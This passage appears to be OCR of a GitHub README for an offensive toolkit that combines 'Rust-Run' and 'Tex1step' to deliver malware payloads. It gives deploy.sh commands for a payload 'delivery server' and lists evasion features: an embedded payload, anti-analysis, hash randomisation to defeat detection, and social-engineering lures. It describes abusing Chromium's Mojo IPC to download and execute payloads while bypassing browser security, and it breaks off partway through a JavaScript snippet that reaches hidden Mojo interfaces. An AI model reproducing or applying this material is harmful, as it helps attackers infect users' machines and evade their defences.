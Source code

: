 ```bash

# Start delivery server for testing
if [ "$1" == "--serve" ]; then
  echo "[+] Starting delivery server on port $DELIVERY_PORT..."
  node src/build.js --serve --port $DELIVERY_PORT
fi
```

4. **Execute the Deployment**

```bash
# Make the script executable
chmod +x deploy.sh

# Run the deployment
./deploy.sh

# Or run with server for testing
./deploy.sh --serve
```

### Security Enhancements

The integration of Rust-Run with Tex1step offers several security advantages:

1. **Elimination of Network Dependencies**
   - The embedded payload within Rust-Run eliminates network requests for payload retrieval
   - Reduces detection surface and increases reliability

2. **Layered Evasion Techniques**
   - Rust-Run's anti-analysis techniques remain functional
   - Tex1step adds additional randomization to break hash-based detection
   - Combined evasion techniques from both frameworks

3. **Multiple Delivery Options**
   - Browser-based delivery using Mojo service exploitation
   - File-based delivery options
   - Customizable social engineering elements

4. **Operational Security**
   - Automated build and deployment process
   - Minimal manual intervention required
   - Consistent payload preparation

## Implementation Notes

### Mojo Service Exploitation

The delivery mechanism leverages Chromium's Mojo IPC service to download and execute payloads directly, bypassing standard browser security controls. The implementation includes:

1. **Direct Mojo Interface Access**
   - Exploits the internal IPC mechanism of Chromium-based browsers
   - Interfaces directly with the Mojo system through JavaScript injection:
     ```javascript
     // Access hidden Mojo interfaces using reflection techniques
     const mojoInterface = chrome.webUI && chrome.webUI.getResourceURL ? 
         window.chrome.mojo.internal : 
         (window.chrome.mojo || window.__mojoInternal);
         